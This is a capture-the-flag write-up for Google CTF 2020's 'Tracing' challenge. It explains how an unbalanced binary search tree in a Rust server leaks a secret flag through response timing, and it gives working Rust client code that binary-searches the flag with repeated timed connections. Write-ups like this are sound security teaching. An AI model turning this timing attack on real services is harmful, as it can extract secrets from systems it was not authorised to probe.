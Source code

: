 ## CTF 2020 Tracing writeup

Well, its been a while since ctf google competition has ended (August 2020) but I just discovered it and thought I should give it a go.
Soo here it goes:


The challenge is under the pwn category and it is considered an easy one (but awards 151 points instead of the 50 that most easy challenges are worth)

The description of the challenge is the following:
```
An early prototype of a contact tracing database is deployed for the developers to test,
but is configured with some sensitive data. See if you can extract it.
```

Google provides a zip file that has a basic rust implementation of a server and an implementation of a b-tree.

### Understanding the problem
We can assume that the purpose of using rust here is to make sure that buffer overflow attacks are impossible. Neither the webserver nor b-tree implementation seem to have any unsafe code that we could exploit.

We can formulate though a solution, if we track down the logic the webserver is following.

First of all we can see that the server loads up some flag (thats what we're tasked to find to complete the challenge) which is 16 bytes and casts it to a Uuid.
```rust
 let checks: Vec<Uuid> = std::env::args()
        .skip(1)
        .map(|arg| Uuid::from_slice(arg.as_bytes()).unwrap())
        .collect();
```


Every new connection to the server spawns a thread that handles it and performs the following:
  * Read N bytes untill the reading channel is closed from the client
  * Split the N bytes into chunks of 16 bytes
  * Create N/16 Uuids and insert them into a fresh b-tree
  * Write back to the client the number of inserted Uuids
  * Search the input flag into the b-tree
  * Close the connection
  
Highlighting those in code:
```rust
...
    // receive bytes
    let bytes = (&stream).bytes().map(|b| b.unwrap());
    // split to chunks
    let chunks = {
        use futures::stream::StreamExt;
        bytes.chunks(16)
    };

    let mut count: u32 = 0;
    // create collection of Uuids
    let ids = chunks.filter_map(|bytes| {
        count += 1;
        Uuid::from_slice(&bytes).ok()
    });
    // Use ids to populate a fresh binary tree
    let tree = {
        use futures::stream::StreamExt;
        ids.collect::<BinarySearchTree<_>>()
    }
    .await;
    // respond with a number
    stream.write_all(&count.to_be_bytes()).await?;

    // perform check
    checks
        .iter()
        .filter(|check| tree.contains(check))
        .for_each(|check| warn!("Uploaded IDs contain {}!", check));
    // shutdown connection
    stream.shutdown(std::net::Shutdown::Both)?;
...
```

As we can see from the above, we can only alter the content of the b-tree and have no way to retrieve anything other than the number of elements we inserted into it.

### Craft a theoritical solution
What allows to solve this challenge instead is the timing in which the server responds and closes the connection.
The server writes back to the client the moment it has finished inserting the values into the b-tree and closes the connection only after a complete search for the flag into the tree.

Which means that the only attack angle here is **timing**.

A quick check on the binary tree implementation shows that this is **not** a self-balancing b-tree, which means that we can create a totally unbalanced b-tree and therefore alter the searching time on demand.

A simple example on how we could leverage that and search for the flag is the following:

Assuming that the flag is a value between 1-100, inserting into the binary tree values 50,51,.....80 will create the following tree:

![](./images/tracing1.png)


if the flag is between 0-50 the search operation will be 0(1) and if it is on the upper bound the operation becomes O(n)

We can then measure the time from the moment the server responds till it shuts down the connection.
We repeat the same thing but in reverse this time. We insert 50,49,...20.
which will be O(1) for values higher than 50 and o(n) for the lower bound.

Measuring again will give us 3 possible results.
If our flag is between 50-100 it will take more time to be searched through the first tree and if it is between 0-50 it will take more time on the second tree. IF the time is identical we just found the flag first try (very unlikely). By noting that down we can inference in which half of the key space our flag is on. Congrats, we just performed the first step of Binary search, then we only have to rinse and repeat couple of times till we get really close to the flag value.

### Implement solution
In this exact problem we have 2^ (16*8) = 2^128 flags that we have to binary search through them.

For the sake of getting more familiar with rust I created a client in rust that would perform those checks for me.
What is very convinient is that we could use a ```u128``` to represent each Uuid. Therefore we can easily do numeric operations without a care in the world.

Therefore I use one function that:
  * takes a u128 which is the middle point in my binary search and a sign ("+" or "-") 
  * initiates a connection to the server
  * writes 1000 consecutive (in increasing or decreasing order based on the sign) Uuids to the server
  * waits for the response
  * initiates a time instance
  * and returns it when the connection is closed

```rust
fn check_mid(middle: u128, sign: &str) -> std::io::Result<std::time::Instant> {
    let mut stream = TcpStream::connect("some.server:1337")?;
    for i in 0..1000 {
        if sign == "+" {
            stream.write(&(middle + i).to_be_bytes())?;
        } else {
            stream.write(&(middle - i).to_be_bytes())?;
        }
    }
    // close writing channel and make server create b-tree
    stream.shutdown(Shutdown::Write)?;
    let mut buffer: [u8; 4] = [1, 1, 1, 1];
    // read response
    stream.read(&mut buffer)?;
    //start measuring the time
    let now = Instant::now();
    // return the time instance for evaluation
    Ok(now)
}
```

Then I used this function to perform my binary search throughout the flag space.

```rust
fn main() {
    // start at the middle of our 16byte key space
    let mut middle: u128 = u128::MAX / 2;
    let mut i = 2;
    while i < 127 {
        let mut right: u128 = 0;
        let mut left: u128 = 0;
        // get accumulated elapsed time from communicating with the server
        for _ in 0..200 {
            right += check_mid(middle, "+")
                .expect("connection failed")
                .elapsed()
                .as_nanos();
            left += check_mid(middle, "-")
                .expect("connection failed")
                .elapsed()
                .as_nanos();
        }
        // move the middle point according to the statistics gathered
        // this is the essense of the binary search
        if right > left && right.wrapping_sub(left) > 20000 {
            middle = middle + (u128::MAX / 2u128.pow(i));
            i += 1;
        } else if left > right && left.wrapping_sub(right) > 20000 {
            middle = middle - (u128::MAX / 2u128.pow(i));
            i += 1;
        }
        // print iteration of the binary search, u128 , uuid and characters of current iteration
        println!(
            "middle {} : {} : {:?}  : {:?}",
            i,
            middle,
            Uuid::from_bytes(middle.to_be_bytes()),
            middle
                .to_be_bytes()
                .iter()
                .map(|&byte| byte as char)
                .collect::<Vec<char>>()
        );
    }
}
```

It is worth noting that the measurement of time is significant to the binary search path. Random spikes in the network latency can completely ruin our results. Therefore I'm repeating the same request 200 times in an attempt to eliminate the network variable.

In addition, after a quick research I found that google's VM is located in europe-west1-d datacenter and I ran my program from a VM there to further decrease the random latency.


Thank god binary search works this way, and we only need to do 128 requests to search all of the key space of the flag.
After a long while, we can obtain the flag.

In occasional errors, we can restart the app adjusting the ```i``` and ```middle``` for the search to continue from where it failed.

